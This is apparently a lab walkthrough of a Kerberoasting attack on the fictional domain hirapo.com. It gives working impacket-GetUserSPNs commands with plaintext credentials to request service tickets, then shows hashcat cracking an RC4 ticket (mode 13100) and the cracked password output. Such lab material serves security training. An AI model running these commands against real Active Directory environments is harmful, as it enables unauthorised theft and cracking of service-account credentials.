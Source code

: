 # Lab: Kerberoasting and Silver Ticket Attacks Walkthrough

## 1. Identifying Potentially Crackable SPNs

**Command:**

```bash
impacket-GetUserSPNs -dc-host dc.hirapo.com -outputfile spns.txt hirapo.com/blee:Password1
```

**Expected Results:**

```
ServicePrincipalName            Name         MemberOf                                       PasswordLastSet             LastLogon                   Delegation
------------------------------- -----------  ---------------------------------------------  --------------------------  --------------------------  ----------
MSSQLSvc/sql01.hirapo.com:1433  sqlservice1  CN=Service Accounts,CN=Users,DC=hirapo,DC=com  2025-04-30 22:18:41.897136  2025-04-30 23:16:04.398433             
MSSQLSvc/sql01.hirapo.com       sqlservice1  CN=Service Accounts,CN=Users,DC=hirapo,DC=com  2025-04-30 22:18:41.897136  2025-04-30 23:16:04.398433             
MSSQLSvc/sql02.hirapo.com:1433  sqlservice2  CN=Service Accounts,CN=Users,DC=hirapo,DC=com  2025-04-30 22:19:18.229622  2025-05-01 14:10:45.912218             
MSSQLSvc/sql02.hirapo.com       sqlservice2  CN=Service Accounts,CN=Users,DC=hirapo,DC=com  2025-04-30 22:19:18.229622  2025-05-01 14:10:45.912218             
```

SPNs saved to `spns.txt` for cracking.

## 2. Cracking the Ticket

**Command:**

```bash
hashcat -h | grep Kerberos
```

**Kerberoast Mode Identified:** `-m 13100` (etype 23, RC4)

**Check Ticket Etype:**

```bash
head -c 12 spns.txt
```

**Result:** `$krb5tgs$23$`

**Crack with Hashcat:**

```bash
hashcat -m 13100 spns.txt -a 6 /opt/passwordlists/google-10000-english-no-swears.txt ?s
```

**Cracked Password Output:**

```
...Shooting*
```

